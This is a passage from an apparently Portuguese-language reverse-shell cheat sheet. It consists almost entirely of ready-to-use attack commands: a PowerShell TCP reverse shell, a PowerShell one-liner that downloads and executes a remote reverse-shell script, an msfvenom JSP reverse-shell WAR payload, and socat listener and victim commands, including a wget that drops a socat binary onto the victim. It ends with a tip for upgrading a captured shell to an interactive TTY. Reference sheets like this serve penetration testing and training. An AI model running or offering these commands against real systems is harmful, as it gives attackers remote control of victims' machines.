 Método 2

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Método 3

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

Método 4

Repositório muuuuito bom do Nishang sobre reverse shell em windows, vale a pena conferir.

`https://github.com/samratashok/nishang/tree/master/Shells`

## War

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```

## Socat

```sh
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

```sh
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

# Shell Interativo

## TTY Linux

### TTY Shell de um Interpretador

Assim que pegar o shell na máquina, e vier aquele shell que não é interativo,muito ruim de trabalhar, digite

```sh
/usr/bin/script -qc /bin/bash /dev/null
```
